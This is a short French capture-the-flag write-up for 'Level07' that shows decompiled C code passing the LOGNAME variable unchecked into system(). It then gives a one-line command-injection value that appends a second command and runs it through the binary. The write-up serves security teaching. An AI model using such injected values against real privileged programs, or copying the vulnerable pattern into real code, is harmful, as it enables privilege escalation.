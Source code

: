# Level07:

**A la racine de la session on trouve un binaire qui une fois decompile donne le code suivant:**

```cpp
int main(int argc,char **argv,char **envp) {
    char *pcVar1;
    int iVar2;
    char *buffer;
    gid_t gid;
    uid_t uid;
    char *local_1c;
    __gid_t local_18;
    __uid_t local_14;
    
    local_18 = getegid();
    local_14 = geteuid();
    setresgid(local_18,local_18,local_18);
    setresuid(local_14,local_14,local_14);
    local_1c = (char *)0x0;
    pcVar1 = getenv("LOGNAME");
    asprintf(&local_1c,"/bin/echo %s ",pcVar1);
    iVar2 = system(local_1c);
    return iVar2;
}
```

**Le code recupere la variable d'environement "LOGNAME" et l'ajoute dans une ligne qui affiche le resultat de la commande echo avec cette chaine, on peut donc facilement l'exploiter de la maniere suivante:**

`export LOGNAME='"" ; getflag'`

**Cette ligne s'ocuppe de fermer le `echo` et d'y glisser la commande `getflag`**
**Nous n'avons donc plus qu'a relancer le binaire `./level07`**

![finaly.png](./finaly.png)